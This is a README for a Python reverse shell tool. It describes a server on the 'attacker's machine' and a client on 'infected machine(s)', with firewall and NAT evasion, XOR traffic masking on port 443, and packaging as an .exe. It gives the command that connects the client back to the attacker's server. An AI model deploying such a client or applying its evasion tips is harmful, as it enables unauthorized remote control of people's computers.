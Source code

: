 # reverse_shell
A reverse shell 

DISCLAIMER: I really shouldn't have to say this but DON'T USE THIS WITHOUT THE COMPUTER OWNER'S CONSENT

Features:

-Reverse TCP/IP connection, circumventing victim-side firewall roules (in most cases) and NAT limitations.

-Trafic Masking. All traffic is sent XORed and not in clear text. For better masking swap port to 443.[1]

-Support for multiple connections. The Server part is built with support for multiple simulatneus connections, with Hosts list managment.

-Client script is tested and is compatible with PyInstaller (can be made into .exe).[2]

Deployment:

-The server is situated at the attacker's machine and running to accept connections

-The client is situated in the infected machine(s) and will initiate the connection and wait for input.

Execution:

In their current stated the scripts are executed as follows

-Server: python rev_shell_server.py (max_connections) 
max_connections defaults to 5 if left blank

-Client: python rev_shell_client.py (server_ip)

Many changes can be made to fit individual needs.

As always if you have any suggestion, bug report or complain feel free to contact me.

*[1]The idea for XORing as well as the skeleton for the client came from (http://www.primalsecurity.net) so if you like this pack of scripts you'll probably love what they do

*[2]Again check primalsecurity.net's perfect blogpost about producing an .exe

